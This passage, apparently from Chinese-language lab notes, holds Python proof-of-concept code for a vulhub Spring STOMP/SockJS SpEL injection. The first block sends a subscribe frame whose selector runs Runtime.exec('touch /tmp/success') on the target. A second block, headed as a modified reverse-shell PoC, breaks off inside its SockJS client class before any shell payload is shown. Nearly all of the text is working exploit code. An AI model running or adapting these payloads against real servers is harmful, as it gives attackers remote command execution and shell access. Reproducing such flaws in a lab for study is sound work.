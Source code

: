 ```python
            logging.info(f"send '{command}' data success.")

    def __del__(self):
        self.session.close()


sockjs = SockJS('http://your-ip:8080/gs-guide-websocket')
sockjs.start()
time.sleep(1)

sockjs.send('connect', {
    'accept-version': '1.1,1.0',
    'heart-beat': '10000,10000'
})
sockjs.send('subscribe', {
    'selector': "T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')",
    'id': 'sub-0',
    'destination': '/topic/greetings'
})

data = json.dumps({'name': 'vulhub'})
sockjs.send('send', {
    'content-length': len(data),
    'destination': '/app/hello'
}, data)
```

改动后反弹shell poc：

```python
#!/usr/bin/env python3
from asyncio.constants import LOG_THRESHOLD_FOR_CONNLOST_WRITES
import requests
import random
import string
import time
import threading
import logging
import sys
import json
import base64

logging.basicConfig(stream=sys.stdout, level=logging.INFO)

def random_str(length):
    letters = string.ascii_lowercase + string.digits
    return ''.join(random.choice(letters) for c in range(length))


class SockJS(threading.Thread):
    def __init__(self, url, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'
        self.daemon = True
        self.session = requests.session()
        self.session.headers = {
            'Referer': url,
            'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'
        }
        self.t = int(time.time()*1000)

    def run(self):
        url = f'{self.base}/htmlfile?c=_jp.vulhub'
        response = self.session.get(url, stream=True)
```